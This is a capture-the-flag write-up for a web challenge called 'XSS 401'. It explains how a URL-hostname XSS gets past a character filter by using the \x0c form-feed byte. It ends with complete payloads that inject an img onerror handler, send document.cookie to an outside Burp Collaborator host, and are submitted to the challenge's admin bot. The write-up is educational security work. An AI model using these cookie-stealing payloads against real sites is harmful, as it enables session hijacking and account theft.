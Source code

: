 ## XSS 401 - Web challenge

![alt desc](./chal-desc.png)

#### Author: p4w

### Solution
We can spot the __XSS__ vuln. by reading the code:

![alt fuzz](./XSS-in-src.png)

As you can notice the url parameter is passed as an argument to the URL constructor. So we have a potential __XSS__ through the __URL.hostname__. The problem is to reach the __vulnerable code at line 75__ we don't let the application failing and trigger an exception when the `new URL(url)` (line 62) is called.

__XSS__ Limitation, we can't use the following list of characters:
* no white space (`\x20`)
* no slashes (`/`) or backslashes (`\`)
* no `@`, `\x0c`, `:`, ....
* null byte (`\x00`) and \n (`\x0a`) will be stripped out
* only lowercase letters (JavaScript is case sensitive, html is not)

Bypass for the space character between the tag name and attributes can be done using `\x0c`. You can find this result using a simple fuzzer like the following ([fuzzer link here](./fuzzer.html)).

![alt fuzz](./fuzzer.png)

Here there is few screen-shots showing that `alert(1337)` function got executed:

![alt fuzz](./XSS-burp-PoC.png)

![alt fuzz](./XSS-PoC.png)

From there is just question of creativity to build a working payload and steal the admin cookie.

![alt fuzz](./XSS-burp.png)

__XSS__ payload url-decoded, the `\x0c` character is not printable but is there :D
```
http://<html><body><imgsrc="0"onerror="fetch(location.href.substr(0,8)+'2or6d71urhtbh5vl2247o9xz2q8mwb.burpcollaborator.net'+location.href.substr(7,1)+document.cookie)">
```

__XSS__ payload:
```
http://%3Chtml%3E%3Cbody%3E%3Cimg%0Csrc=%220%22onerror=%22fetch(location.href.substr(0,8)%2b%272or6d71urhtbh5vl2247o9xz2q8mwb.burpcollaborator.net%27%2blocation.href.substr(7,1)%2bdocument.cookie)%22%3E
```

__JavaScript__ code to leak the cookie (all lowercase):
```
fetch(location.href.substr(0,8)+'2or6d71urhtbh5vl2247o9xz2q8mwb.burpcollaborator.net'+location.href.substr(7,1)+document.cookie)
```

__Final__ payload (submit to the bot this URL, double URL encode the second part):
```
https://wsc-2022-web-5-bvel4oasra-uc.a.run.app/visit?url=https://wsc-2022-web-5-bvel4oasra-uc.a.run.app/visit?url=http%3a//%253Chtml%253E%253Cbody%253E%253Cimg%250Csrc%3d%25220%2522onerror%3d%2522fetch(location.href.substr(0,8)%252b%25272or6d71urhtbh5vl2247o9xz2q8mwb.burpcollaborator.net%2527%252blocation.href.substr(7,1)%252bdocument.cookie)%2522%253E
```

Leaking the flag:

![alt fuzz](./get-flag.png)
